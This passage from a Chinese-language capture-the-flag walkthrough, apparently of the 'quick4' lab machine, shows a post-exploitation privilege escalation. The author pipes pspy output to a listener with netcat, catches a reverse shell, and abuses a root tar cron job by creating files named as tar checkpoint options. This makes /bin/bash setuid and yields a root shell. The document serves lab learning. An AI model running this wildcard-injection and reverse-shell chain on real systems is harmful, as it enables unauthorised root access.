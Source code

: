 咋一直没动静，传一个` pspy64 `上去看一下：

```bash
pspy64 2>/dev/null | nc -nv 10.161.181.188 5555
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403162116232.png" alt="image-20240316203817778" style="zoom:33%;" />

咋一直没动静，才发现监听错端口了，哈哈哈，重新来，换一个不用传文件的：

```bash
echo "chmod +s /bin/bash" > exp.sh
chmod +x exp.sh
touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint-action=exec=sh\ exp.sh
ls -la /bin/bash
/bin/bash -p
```

咋一直不好呢，按理来说一分钟一次的啊，重起靶场再来一次：

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 1234
listening on [any] 1234 ...
10.161.192.13: inverse host lookup failed: Unknown host
connect to [10.161.181.188] from (UNKNOWN) [10.161.192.13] 48748
Linux quick4 5.15.0-92-generic #102-Ubuntu SMP Wed Jan 10 09:33:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 21:10:33 up 2 min,  0 users,  load average: 0.12, 0.08, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@quick4:/$ cd /var/www/html
cd /var/www/html
www-data@quick4:/var/www/html$ ls
ls
404.css   careers  customer  fonts   img         js   modules     scss
404.html  css      employee  images  index.html  lib  robots.txt  styles.css
www-data@quick4:/var/www/html$ echo "chmod +s /bin/bash" > exp.sh
echo "chmod +s /bin/bash" > exp.sh
www-data@quick4:/var/www/html$ chmod +x exp.sh
chmod +x exp.sh
www-data@quick4:/var/www/html$ touch /var/www/html/--checkpoint=1
touch /var/www/html/--checkpoint=1
www-data@quick4:/var/www/html$ touch /var/www/html/--checkpoint-action=exec=sh\ exp.sh
<h /var/www/html/--checkpoint-action=exec=sh\ exp.sh
www-data@quick4:/var/www/html$ ls -la /bin/bash
ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
www-data@quick4:/var/www/html$ ^[[A
ls -la /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
www-data@quick4:/var/www/html$ /bin/bash -p
/bin/bash -p
bash-5.1# whoami;id
whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
bash-5.1# cd /root
cd /root
bash-5.1# ls -la
ls -la
total 56
drwx------  7 root root 4096 Feb 12 16:10 .
drwxr-xr-x 20 root root 4096 Jan 14 20:49 ..
```